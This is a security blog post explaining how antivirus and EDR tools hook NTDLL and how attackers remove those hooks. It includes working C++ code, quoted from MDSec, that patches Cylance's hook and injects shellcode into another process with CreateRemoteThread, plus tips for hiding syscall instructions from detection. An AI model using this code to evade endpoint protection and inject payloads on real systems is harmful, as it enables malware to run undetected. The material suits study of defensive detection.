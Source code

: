 # How Does AV Know?
Have you ever wondered how AV knows what that the application you're trying to run is malicious when it doesn't have a known signature?
NTDLL is the answer.

![NTDLL](/assets/img/ntdll/proc-loading.png)

# Before we begin
It's the first post on the new website, and we finally can include Markdown code blocks! No more screenshots of code! 
Blogger has served its purpose well, but it's finally time to move on to more adaptable hosting options. 
With that out of the way, the first post on the new site is going to be talking about a very common EDR evasion techniques and how to spot it.
This is something that has been discussed a lot before and probably won't be new to many, but even in 2022 it's still overlooked by EDR vendors, so it's worth going over.

## What is NTDLL?
In the simplest form, it exports the Windows Native API. 
Since it would be incredibly insecure to allow user mode applications direct access to manipulate the kernel, Windows instead allows you to interact with it through the Native API which is then mapped to Syscalls.
These Syscalls then are mapped via the system service descriptor table (SSDT) to the kernel functions memory address.
Things like WriteProcessMemory or CreateRemoteThread all go through here and have their own NT API equivalent - NtWriteVirtualMemory and NtCreateThreadEx respectively.
Then, once they have found their API equivalent call, the memory location that the loaded copy of NTDLL has is referenced.
And yes! You can completely avoid having to use these exported functions by just using the Syscalls instead, i.e. Syswhispering.
This comes with its own challenges though when manually implemented as these Syscall numbers reference different memory addresses in the system service descriptor table with each update.
So if you want to avoid NTDLL and use Syscalls, use Syswhisper - it cuts out the headaches and figures out the correct memory address for you.

## How does AV hook NTDLL?
As indicated above, NTDLL is used for a bunch of internal actions so, for the EDR, setting interrupt points to examine what kind of API requests are being made is critical.
Your typical EDR will modify the loaded version to allow it to send off suspicious function calls, such as below with CreateRemoteThread.
![EDR Jump Point](https://www.mdsec.co.uk/wp-content/uploads/2019/03/9797A6D5-B1D8-4E1C-924D-797035C0A3D9-1024x123.png "https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/")

In this screenshot provided by MDSec, Cylance has implemented a jump point for this function call so that it can inspect what exactly is being performed before passing it back to the original process.
EDR will typically do this for every function that can be abused. But each EDR is built differently so while Cylance might have this jmp here, perhaps Crowdstrike does not. Just something to keep in mind.


## Unhooking for fun and profit
We know what NTDLL is and how it's used and we also know how EDR puts jump points into it in order to examine suspicious calls. 
The next step after this is how can we defeat this process? 

```cpp
void removeCylanceHook(const char* dll, const char* apiName, char code) {
    DWORD old, newOld;
    void* procAddress = GetProcAddress(LoadLibraryA(dll), apiName);
    printf("[*] Updating memory protection of %s!%s\n", dll, apiName);
    VirtualProtect(procAddress, 10, PAGE_EXECUTE_READWRITE, &old);
    printf("[*] Unhooking Cylance\n");
    memcpy(procAddress, "\x4c\x8b\xd1\xb8", 4);
    *((char*)procAddress + 4) = code;
    VirtualProtect(procAddress, 10, old, &newOld);
} 
```
The above snippet is taken from MDSec [here](https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/).
The key part to highlight is you can see there is a new value being copied to a memory location.
Here they are overwriting this process address with the original bytes pointing to the kernel functions memory address.
Every memory address exported from the Native API in fact will start with these bytes. 
After implementing this, when the application continues execution, it will no longer have a jump instruction to Cylance's analysis.

```cpp
printf("[*] Opened target process %d\n", processID);
printf("[*] Allocating memory in target process with VirtualAllocEx\n");
void *alloc = VirtualAllocEx(proc, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (alloc == (void*)0) {
    printf("[!] Error: Could not allocate memory in target process\n");
    return 1;
}
printf("[*] Allocated %d bytes at memory address %p\n", sizeof(buf), alloc);
printf("[*] Attempting to write into victim process using WriteProcessMemory\n");
if (WriteProcessMemory(proc, alloc, buf, sizeof(buf), NULL) == 0) {
    printf("[!] Error: Could not write to target process memory\n");
    return 1;
}
printf("[*] WriteProcessMemory successful\n");

// Remove the NTDLL.DLL hook added by userland DLL
removeCylanceHook("ntdll.dll", "ZwCreateThreadEx", 0xBB);
printf("[*] Attempting to spawn shellcode using CreateRemoteThread\n");
HANDLE createRemote = CreateRemoteThread(proc, NULL, 0, (LPTHREAD_START_ROUTINE)alloc, NULL, 0, NULL);
printf("[*] Success :D\n");
```
When this is run, before getting to the CreateRemoteThread function, the application calls the aforementioned removeCylanceHook function with the API name for ZwCreateThreadEx.
The Zw prefix here is important as this ensures that the kernel mode variant for the function is overwritten to point away from the injected EDR jump, whereas specifying Nt would not have done.
So now when our application hits the CreateRemoteThread call, it asks the loaded copy of NTDLL to pass on the request to the SSDT that now has the hook for Cylance removed and functions normally.

## Pros & Cons
So why go through all this work when Syswhisper makes it far simpler?
Well, as [Captmeelo found](https://captmeelo.com/redteam/maldev/2021/11/18/av-evasion-syswhisper.html), EDR could be looking for the ```syscall``` instruction in the binary. 
A simple bypass though in this case is to replace ```syscall``` in the asm file of Syswhisper with ```int 2EH``` which is a legacy instruction for referencing kernel mode. 
*However* this **also** has issues. ```int 2EH``` is trivial to hunt for so now we're entering the territory of adding an [egg-hunter](https://klezvirus.github.io/RedTeaming/AV_Evasion/NoSysWhisper/) to the code in order to find and replace items in memory at run time.
We'd replace ```syscall``` with a random string in the Syswhispers asm file and then at run time implement the egg-hunter to change our previously random string to ```syscall```.
This definitely provides a high level of evasion, but you have to weigh the cost in time versus the advantage gained.

***References***
> https://www.codeproject.com/Articles/1191465/The-Quest-for-the-SSDTs
> 
> https://klezvirus.github.io/RedTeaming/AV_Evasion/NoSysWhisper/
> 
> https://www.geoffchappell.com/studies/windows/win32/ntdll/api/index.htm
> 
> https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/
> 
> https://www.ired.team/offensive-security/defense-evasion/bypassing-cylance-and-other-avs-edrs-by-unhooking-windows-apis
> 
> https://captmeelo.com/redteam/maldev/2021/11/18/av-evasion-syswhisper.html
> 
> https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/
> 
> https://rioasmara.com/2021/06/20/25-bytes-of-every-function-in-ntdll/